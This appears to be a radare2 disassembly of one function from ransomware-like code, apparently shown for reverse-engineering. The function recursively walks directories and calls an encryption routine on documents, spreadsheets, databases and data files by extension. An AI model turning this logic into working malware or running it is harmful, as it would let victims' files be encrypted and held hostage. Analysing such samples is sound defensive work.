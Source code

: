             ; CALL XREF from sym.process_directory @ 0x15c8
            ; CALL XREF from main @ 0x1772
┌ 626: sym.process_directory (int64_t arg1, int64_t arg2);
│           ; var int64_t var_420h @ rbp-0x420
│           ; var int64_t var_418h @ rbp-0x418
│           ; var int64_t var_410h @ rbp-0x410
│           ; var int64_t var_10h @ rbp-0x10
│           ; var int64_t var_8h @ rbp-0x8
│           ; arg int64_t arg1 @ rdi
│           ; arg int64_t arg2 @ rsi
│           0x000014d4      55             push rbp
│           0x000014d5      4889e5         mov rbp, rsp
│           0x000014d8      4881ec200400.  sub rsp, 0x420
│           0x000014df      4889bde8fbff.  mov qword [var_418h], rdi   ; arg1
│           0x000014e6      4889b5e0fbff.  mov qword [var_420h], rsi   ; arg2
│           0x000014ed      488b85e8fbff.  mov rax, qword [var_418h]
│           0x000014f4      4889c7         mov rdi, rax
│           0x000014f7      e874fbffff     call sym.imp.opendir
│           0x000014fc      488945f8       mov qword [var_8h], rax
│           0x00001500      48837df800     cmp qword [var_8h], 0
│       ┌─< 0x00001505      0f8512020000   jne 0x171d
│       │   0x0000150b      488b85e8fbff.  mov rax, qword [var_418h]
│       │   0x00001512      4889c6         mov rsi, rax
│       │   0x00001515      488d05fe0b00.  lea rax, str.Error_opening_directory:__s_n ; 0x211a ; "Error opening directory: %s\n"
│       │   0x0000151c      4889c7         mov rdi, rax
│       │   0x0000151f      b800000000     mov eax, 0
│       │   0x00001524      e867fbffff     call sym.imp.printf         ; int printf(const char *format)
│      ┌──< 0x00001529      e916020000     jmp 0x1744
│     ┌───> 0x0000152e      488b45f0       mov rax, qword [var_10h]
│     ╎││   0x00001532      4883c013       add rax, 0x13
│     ╎││   0x00001536      488d15fa0b00.  lea rdx, [0x00002137]       ; "."
│     ╎││   0x0000153d      4889d6         mov rsi, rdx
│     ╎││   0x00001540      4889c7         mov rdi, rax
│     ╎││   0x00001543      e888fbffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│     ╎││   0x00001548      85c0           test eax, eax
│    ┌────< 0x0000154a      0f84cd010000   je 0x171d
│    │╎││   0x00001550      488b45f0       mov rax, qword [var_10h]
│    │╎││   0x00001554      4883c013       add rax, 0x13
│    │╎││   0x00001558      488d15da0b00.  lea rdx, [0x00002139]       ; ".."
│    │╎││   0x0000155f      4889d6         mov rsi, rdx
│    │╎││   0x00001562      4889c7         mov rdi, rax
│    │╎││   0x00001565      e866fbffff     call sym.imp.strcmp         ; int strcmp(const char *s1, const char *s2)
│    │╎││   0x0000156a      85c0           test eax, eax
│   ┌─────< 0x0000156c      7505           jne 0x1573
│  ┌──────< 0x0000156e      e9aa010000     jmp 0x171d
│  │└─────> 0x00001573      488b45f0       mov rax, qword [var_10h]
│  │ │╎││   0x00001577      488d4813       lea rcx, [rax + 0x13]
│  │ │╎││   0x0000157b      488b95e8fbff.  mov rdx, qword [var_418h]
│  │ │╎││   0x00001582      488d85f0fbff.  lea rax, [var_410h]
│  │ │╎││   0x00001589      4989c8         mov r8, rcx
│  │ │╎││   0x0000158c      4889d1         mov rcx, rdx
│  │ │╎││   0x0000158f      488d15a60b00.  lea rdx, str._s__s          ; 0x213c ; "%s/%s"
│  │ │╎││   0x00001596      be00040000     mov esi, 0x400
│  │ │╎││   0x0000159b      4889c7         mov rdi, rax
│  │ │╎││   0x0000159e      b800000000     mov eax, 0
│  │ │╎││   0x000015a3      e808fbffff     call sym.imp.snprintf       ; int snprintf(char *s, size_t size, const char *format, ...)
│  │ │╎││   0x000015a8      488b45f0       mov rax, qword [var_10h]
│  │ │╎││   0x000015ac      0fb64012       movzx eax, byte [rax + 0x12]
│  │ │╎││   0x000015b0      3c04           cmp al, 4
│  │┌─────< 0x000015b2      751e           jne 0x15d2
│  │││╎││   0x000015b4      488b95e0fbff.  mov rdx, qword [var_420h]
│  │││╎││   0x000015bb      488d85f0fbff.  lea rax, [var_410h]
│  │││╎││   0x000015c2      4889d6         mov rsi, rdx
│  │││╎││   0x000015c5      4889c7         mov rdi, rax
│  │││╎││   0x000015c8      e807ffffff     call sym.process_directory
│ ┌───────< 0x000015cd      e94b010000     jmp 0x171d
│ ││└─────> 0x000015d2      488b45f0       mov rax, qword [var_10h]
│ ││ │╎││   0x000015d6      0fb64012       movzx eax, byte [rax + 0x12]
│ ││ │╎││   0x000015da      3c08           cmp al, 8
│ ││┌─────< 0x000015dc      0f853b010000   jne 0x171d
│ ││││╎││   0x000015e2      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x000015e6      4883c013       add rax, 0x13
│ ││││╎││   0x000015ea      488d15510b00.  lea rdx, str..txt           ; 0x2142 ; ".txt"
│ ││││╎││   0x000015f1      4889d6         mov rsi, rdx
│ ││││╎││   0x000015f4      4889c7         mov rdi, rax
│ ││││╎││   0x000015f7      e844fbffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x000015fc      4885c0         test rax, rax
│ ────────< 0x000015ff      0f85e1000000   jne 0x16e6
│ ││││╎││   0x00001605      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x00001609      4883c013       add rax, 0x13
│ ││││╎││   0x0000160d      488d15330b00.  lea rdx, str..sql           ; 0x2147 ; ".sql"
│ ││││╎││   0x00001614      4889d6         mov rsi, rdx
│ ││││╎││   0x00001617      4889c7         mov rdi, rax
│ ││││╎││   0x0000161a      e821fbffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x0000161f      4885c0         test rax, rax
│ ────────< 0x00001622      0f85be000000   jne 0x16e6
│ ││││╎││   0x00001628      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x0000162c      4883c013       add rax, 0x13
│ ││││╎││   0x00001630      488d15150b00.  lea rdx, str..pdf           ; 0x214c ; ".pdf"
│ ││││╎││   0x00001637      4889d6         mov rsi, rdx
│ ││││╎││   0x0000163a      4889c7         mov rdi, rax
│ ││││╎││   0x0000163d      e8fefaffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x00001642      4885c0         test rax, rax
│ ────────< 0x00001645      0f859b000000   jne 0x16e6
│ ││││╎││   0x0000164b      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x0000164f      4883c013       add rax, 0x13
│ ││││╎││   0x00001653      488d15f70a00.  lea rdx, str..docx          ; 0x2151 ; ".docx"
│ ││││╎││   0x0000165a      4889d6         mov rsi, rdx
│ ││││╎││   0x0000165d      4889c7         mov rdi, rax
│ ││││╎││   0x00001660      e8dbfaffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x00001665      4885c0         test rax, rax
│ ────────< 0x00001668      757c           jne 0x16e6
│ ││││╎││   0x0000166a      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x0000166e      4883c013       add rax, 0x13
│ ││││╎││   0x00001672      488d15de0a00.  lea rdx, str..xlsx          ; 0x2157 ; ".xlsx"
│ ││││╎││   0x00001679      4889d6         mov rsi, rdx
│ ││││╎││   0x0000167c      4889c7         mov rdi, rax
│ ││││╎││   0x0000167f      e8bcfaffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x00001684      4885c0         test rax, rax
│ ────────< 0x00001687      755d           jne 0x16e6
│ ││││╎││   0x00001689      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x0000168d      4883c013       add rax, 0x13
│ ││││╎││   0x00001691      488d15c50a00.  lea rdx, str..csv           ; 0x215d ; ".csv"
│ ││││╎││   0x00001698      4889d6         mov rsi, rdx
│ ││││╎││   0x0000169b      4889c7         mov rdi, rax
│ ││││╎││   0x0000169e      e89dfaffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x000016a3      4885c0         test rax, rax
│ ────────< 0x000016a6      753e           jne 0x16e6
│ ││││╎││   0x000016a8      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x000016ac      4883c013       add rax, 0x13
│ ││││╎││   0x000016b0      488d15ab0a00.  lea rdx, str..json          ; 0x2162 ; ".json"
│ ││││╎││   0x000016b7      4889d6         mov rsi, rdx
│ ││││╎││   0x000016ba      4889c7         mov rdi, rax
│ ││││╎││   0x000016bd      e87efaffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x000016c2      4885c0         test rax, rax
│ ────────< 0x000016c5      751f           jne 0x16e6
│ ││││╎││   0x000016c7      488b45f0       mov rax, qword [var_10h]
│ ││││╎││   0x000016cb      4883c013       add rax, 0x13
│ ││││╎││   0x000016cf      488d15920a00.  lea rdx, str..xml           ; 0x2168 ; ".xml"
│ ││││╎││   0x000016d6      4889d6         mov rsi, rdx
│ ││││╎││   0x000016d9      4889c7         mov rdi, rax
│ ││││╎││   0x000016dc      e85ffaffff     call sym.imp.strstr         ; char *strstr(const char *s1, const char *s2)
│ ││││╎││   0x000016e1      4885c0         test rax, rax
│ ────────< 0x000016e4      7437           je 0x171d
│ ────────> 0x000016e6      488d85f0fbff.  lea rax, [var_410h]
│ ││││╎││   0x000016ed      4889c6         mov rsi, rax
│ ││││╎││   0x000016f0      488d05760a00.  lea rax, str.Encrypting:__s_n ; 0x216d ; "Encrypting: %s\n"
│ ││││╎││   0x000016f7      4889c7         mov rdi, rax
│ ││││╎││   0x000016fa      b800000000     mov eax, 0
│ ││││╎││   0x000016ff      e88cf9ffff     call sym.imp.printf         ; int printf(const char *format)
│ ││││╎││   0x00001704      488b95e0fbff.  mov rdx, qword [var_420h]
│ ││││╎││   0x0000170b      488d85f0fbff.  lea rax, [var_410h]
│ ││││╎││   0x00001712      4889d6         mov rsi, rdx
│ ││││╎││   0x00001715      4889c7         mov rdi, rax
│ ││││╎││   0x00001718      e82cfbffff     call sym.encrypt_file
│ ││││╎││   ; CODE XREFS from sym.process_directory @ 0x156e, 0x15cd
│ └└└└──└─> 0x0000171d      488b45f8       mov rax, qword [var_8h]
│     ╎│    0x00001721      4889c7         mov rdi, rax
│     ╎│    0x00001724      e8c7f9ffff     call sym.imp.readdir
│     ╎│    0x00001729      488945f0       mov qword [var_10h], rax
│     ╎│    0x0000172d      48837df000     cmp qword [var_10h], 0
│     └───< 0x00001732      0f85f6fdffff   jne 0x152e
│      │    0x00001738      488b45f8       mov rax, qword [var_8h]
│      │    0x0000173c      4889c7         mov rdi, rax
│      │    0x0000173f      e87cf9ffff     call sym.imp.closedir
│      │    ; CODE XREF from sym.process_directory @ 0x1529
│      └──> 0x00001744      c9             leave
└           0x00001745      c3             ret
